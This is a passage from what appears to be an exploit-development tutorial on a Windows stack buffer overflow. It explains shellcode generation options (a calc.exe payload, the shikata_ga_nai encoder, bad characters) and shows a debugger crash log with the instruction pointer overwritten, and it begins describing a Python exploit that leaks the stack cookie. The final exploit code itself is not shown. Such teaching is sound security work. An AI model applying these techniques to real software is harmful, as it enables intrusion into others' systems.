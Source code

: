 Some of the arguments I haven't discussed yet:

* CMD=calc.exe sets the CMD variable in the payload to execute the Windows calculator program.  This value can be changed to execute Notepad.exe, CMD.exe, or anything else.
* **-e x86/shikata_ga_nai** encodes the payload using the Polymorphic XOR Additive Feedback Encoder scheme.
* **-b `\x00\x0a\x0d`** avoids the bad characters associated with null characters, new lines, and carriage returns.
* **-v shellcode** specifies a variable name to use in the python output format.

We don't need to be concerned with size constraints as there are over 900 bytes available on the stack for our payload.

```
FAULTING_IP:
unknown!noop+0
43434343 ??

LAST_CONTROL_TRANSFER:  from 44444444 to 43434343

STACK_TEXT:  
WARNING: Frame IP not in any known module. Following frames may be wrong.
008ff828 44444444 44444444 44444444 44444444 0x43434343
008ff874 76aa8484 00691000 76aa8460 868ecc88 0x44444444
008ff888 77802fea 00691000 9c726f3d 00000000 KERNEL32!BaseThreadInitThunk+0x24
008ff8d0 77802fba ffffffff 7781ec28 00000000 ntdll!__RtlUserThreadStart+0x2f
008ff8e0 00000000 00fd16b8 00691000 00000000 ntdll!_RtlUserThreadStart+0x1b

0:000> k
 # ChildEBP RetAddr  
WARNING: Frame IP not in any known module. Following frames may be wrong.
00 008ff828 44444444 0x43434343
01 008ff874 76aa8484 0x44444444
02 008ff888 77802fea KERNEL32!BaseThreadInitThunk+0x24
03 008ff8d0 77802fba ntdll!__RtlUserThreadStart+0x2f
04 008ff8e0 00000000 ntdll!_RtlUserThreadStart+0x1b

```

# Putting it All Together

In this last section, I show how to put all these pieces together to construct the final exploit.  I'll explain this with examples of the exploit code.

## Final Exploit

Using Python's subprocess module for interprocess communication, the exploit program opens pipes to the vulnerable programs standard stream.  This automates the process of providing data through standard input and obtaining the security cookie and stack pointer address from standard output.  See comments in the code for more details on how this protocol is implemented.

Passed to the underlying CreateProcess() function. Open pipes to child's standard input/output/error streams to communicate with program during execution.
